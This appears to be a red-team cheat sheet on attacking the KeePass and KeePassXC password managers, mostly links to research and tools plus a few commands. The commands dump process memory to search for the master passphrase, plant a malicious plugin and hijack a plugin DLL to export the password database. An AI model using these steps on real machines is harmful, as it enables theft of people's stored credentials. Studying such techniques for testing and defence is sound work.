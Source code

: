 # KeePass

- [https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/](https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/)
- [https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/)
- [https://habr.com/ru/post/346820/](https://habr.com/ru/post/346820/)

Enumerate DB locations:

```
Cmd > type %APPDATA%\KeePass\KeePass.config.xml | findstr "<Path>"
```




## KeePassXC

- [https://github.com/keepassxreboot/keepassxc](https://github.com/keepassxreboot/keepassxc)

```
PS > [System.Diagnostics.FileVersionInfo]::GetVersionInfo($(Get-Item "C:\Program Files\KeePassXC\KeePassXC.exe")).FileVersion
```



### Extract Passphrase from Memory

- [https://github.com/d3lb3/KeePass-the-Hash](https://github.com/d3lb3/KeePass-the-Hash)

```
PS > .\strings2.exe -pid (Get-Process KeePassXC) -a -wide > keepassxc_strings.txt
PS > gc .\keepassxc_strings.txt | Select-String -Pattern Passw0
PS > (gc .\keepassxc_strings.txt).length
PS > (gc .\keepassxc_strings.txt).length / 1mb
```




## DLL Hijacking

- [https://skr1x.github.io/keepass-dll-hijacking/](https://skr1x.github.io/keepass-dll-hijacking/)




## Extract Passphrase from Memory (< v2.53.1)

**CVE-2023-32784**

- [https://github.com/vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)
- [https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey)
- [https://www.forensicxlab.com/posts/keepass/](https://www.forensicxlab.com/posts/keepass/)




## Abusing KeePass Triggers (< v2.54)

- [https://d3lb3.github.io/keepass_triggers_arent_dead/](https://d3lb3.github.io/keepass_triggers_arent_dead/)
- [https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029](https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029)
- [https://19dx.ru/2023/06/triggery-keepass-mertvy-da-zdravstvuyut-triggery-keepass/](https://19dx.ru/2023/06/triggery-keepass-mertvy-da-zdravstvuyut-triggery-keepass/)




## Tools



### KeeFarce

- [https://github.com/denandz/KeeFarce](https://github.com/denandz/KeeFarce)



### KeeFarceReborn

- [https://github.com/d3lb3/KeeFarceReborn](https://github.com/d3lb3/KeeFarceReborn)


#### Abusing the KeePass Plugin Cache

- [https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html)
- [https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin)

Export DB by compiling and loading a malicious plugin (requires admin's privileges to place the `.plgx` file):

```
Cmd > KeePass.exe --plgx-create C:\KeeFarceReborn\KeeFarceRebornPlugin
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin.plgx "C:\Program Files\KeePass Password Safe 2\Plugins"
```

Export DB by hijacking a legit plugin DLL (requires an existent plugin in use):

```
Cmd > copy "C:\Program Files\KeePass Password Safe 2\KeePass.exe" .
Cmd > devenv /build Release KeeFarceRebornPlugin.sln
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin\bin\Release\KeeFarceRebornPlugin.dll C:\Users\snovvcrash\AppData\Local\KeePass\PluginCache\3o7A46QKgc2z6Yz1JH88\LegitPlugin.dll
```



### KeePassHax

- [https://github.com/HoLLy-HaCKeR/KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax)



### KeeThief

- [https://github.com/GhostPack/KeeThief](https://github.com/GhostPack/KeeThief)



### CrackMapExec

- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py)
- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py)



### KeePwn

- [https://github.com/Orange-Cyberdefense/KeePwn](https://github.com/Orange-Cyberdefense/KeePwn)



### ThievingFox

- [https://blog.slowerzs.net/posts/thievingfox/](https://blog.slowerzs.net/posts/thievingfox/)
- [https://github.com/Slowerzs/ThievingFox/tree/main/keepassfox](https://github.com/Slowerzs/ThievingFox/tree/main/keepassfox)
- [https://github.com/Slowerzs/ThievingFox/tree/main/keepassxcfox](https://github.com/Slowerzs/ThievingFox/tree/main/keepassxcfox)
